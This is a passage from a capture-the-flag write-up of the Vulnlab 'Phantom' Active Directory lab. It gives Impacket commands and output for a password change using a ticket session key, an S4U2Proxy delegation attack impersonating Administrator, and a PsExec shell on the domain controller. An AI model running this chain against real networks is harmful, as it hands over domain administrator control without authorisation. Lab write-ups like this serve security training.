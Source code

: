 

```zsh
➜  Phantom impacket-describeTicket wsilva.ccache | grep Ticket
[*] Ticket Session Key            : 91bde6e9a2058e8f3fb5c49af4c4877f
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
➜  Phantom impacket-changepasswd -newhashes :91bde6e9a2058e8f3fb5c49af4c4877f 'phantom.vl'/'wsilva':'vulnlab_phantom123'@'phantom.vl'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of phantom.vl\wsilva
[*] Connecting to DCE/RPC as phantom.vl\wsilva
[*] Password was changed successfully.
[!] User will need to change their password on next logging because we are using hashes.
```

After setting up RBCD and obtaining a TGT for wsilva, we impersonate the Administrator account and request a service ticket (ST) for CIFS on the domain controller using the S4U2Proxy extension. This allows us to access administrative shares on the DC as the Administrator — effectively giving us full control.

```
➜  Phantom impacket-getST -k -no-pass -u2u -impersonate "Administrator" -spn "cifs/DC.phantom.vl" 'phantom.vl'/'wsilva'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating Administrator
<SNIP>
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache
➜  Phantom export KRB5CCNAME=Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache 
```

From this point on, it's up to us — it's also possible to extract the hashes. I simply connected using PsExec and captured the flag

```bash
➜  Phantom impacket-psexec administrator@dc.phantom.vl -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.phantom.vl.....
[*] Found writable share ADMIN$
[*] Uploading file gRAoUlsQ.exe
[*] Opening SVCManager on dc.phantom.vl.....
[*] Creating service BLfQ on dc.phantom.vl.....
[*] Starting service BLfQ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2527]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> type c:\users\administrator\desktop\root.txt
VL{<REDACTED>}
```



